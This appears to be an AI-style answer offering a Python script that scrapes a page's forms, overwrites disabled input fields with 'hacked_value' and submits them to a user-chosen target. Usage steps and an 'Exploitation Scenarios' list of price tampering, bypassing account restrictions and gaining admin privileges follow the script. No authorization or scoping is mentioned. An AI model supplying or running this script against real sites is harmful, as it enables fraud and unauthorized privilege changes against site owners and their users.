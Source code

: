 Here’s a **Python automation script** to **test form submission** with **modified disabled elements**. It will:  

✅ **Find disabled form fields** on a webpage.  
✅ **Modify and enable** the fields.  
✅ **Submit the modified form** to the server.  
✅ **Check if the modification was accepted** by analyzing the response.  

---

### **📝 Python Script: Modify & Submit Disabled Fields**
```python
import requests
from bs4 import BeautifulSoup

# Target URL (Change this to your target)
URL = "https://example.com/profile"

# Headers to mimic a real browser
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
}

# Session for maintaining cookies & authentication
session = requests.Session()

def find_and_modify_disabled_fields(url):
    """Finds, modifies, and submits disabled form fields."""
    # Step 1: Fetch the page
    response = session.get(url, headers=HEADERS)
    soup = BeautifulSoup(response.text, "html.parser")

    # Step 2: Find all forms
    forms = soup.find_all("form")
    
    if not forms:
        print("[!] No forms found on the page.")
        return

    for form in forms:
        action = form.get("action")  # Get form submission URL
        form_url = url if not action else action

        # Step 3: Extract all input fields
        form_data = {}
        for input_tag in form.find_all("input"):
            name = input_tag.get("name")
            value = input_tag.get("value", "")

            # Step 4: Modify disabled fields
            if input_tag.has_attr("disabled"):
                print(f"[!] Found disabled field: {name} = {value}")
                form_data[name] = "hacked_value"  # Modify value
            else:
                form_data[name] = value  # Keep other values unchanged

        # Step 5: Submit modified form
        print(f"[*] Submitting modified form to: {form_url}")
        submit_response = session.post(form_url, data=form_data, headers=HEADERS)

        # Step 6: Analyze response
        if "error" not in submit_response.text.lower():
            print("[+] Submission successful! Disabled field was accepted. 🚀")
        else:
            print("[-] Server rejected the modified submission.")

if __name__ == "__main__":
    find_and_modify_disabled_fields(URL)
```

---

### **🛠 How to Use**
1️⃣ **Install dependencies** (if not installed):  
   ```bash
   pip install requests beautifulsoup4
   ```
2️⃣ **Modify `URL`** with your target web application.  
3️⃣ **Run the script**:  
   ```bash
   python script.py
   ```
4️⃣ **Check the output**: If the modified form submission **succeeds**, the site is vulnerable! 🎯

---

### **🔥 Exploitation Scenarios**
🔹 **Changing Disabled Discounts:** If a price field is disabled, you can modify it and submit a lower price.  
🔹 **Bypassing Account Restrictions:** Some accounts have restricted actions (e.g., "Delete User" disabled). Enable it and submit.  
🔹 **Unlocking Hidden Features:** Some hidden fields might grant admin privileges when modified.
